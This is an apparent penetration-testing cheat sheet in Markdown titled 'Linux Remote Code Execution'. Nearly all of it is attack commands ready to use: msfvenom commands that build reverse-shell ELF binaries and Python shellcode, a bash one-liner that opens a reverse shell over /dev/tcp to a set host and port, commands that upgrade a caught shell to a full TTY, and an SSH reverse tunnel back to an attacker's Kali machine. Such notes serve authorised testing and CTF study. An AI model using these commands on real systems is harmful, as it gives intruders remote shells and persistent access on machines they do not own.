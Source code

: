# Linux Remote Code Execution

## <a href='https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/' target="blank">MSFVenom Reverse Shell Payload Cheatsheet (with & without Meterpreter)</a>

## <a href='https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md' target="blank">Reverse Shell Cheat Sheet</a>

### Check list

``` bash
msfvenom  --list encoders
```

### File

``` bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell.elf
```

### Shell Code

``` bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -v shellcode -f py
```

## Reverse Shell using bash

``` bash
bash -i >& /dev/tcp/10.0.0.1/4242 0>&1
```

## Upgrade shell

``` bash
/usr/bin/python -c "import pty; pty.spawn('/bin/sh')"
export TERM=xterm

stty raw -echo
fg
```

## <a href='https://www.ssh.com/ssh/tunneling/example' target="blank">Port Tunneling</a>

``` bash
ssh -R $myip:8080:127.0.0.1:8080 kali@$myip
```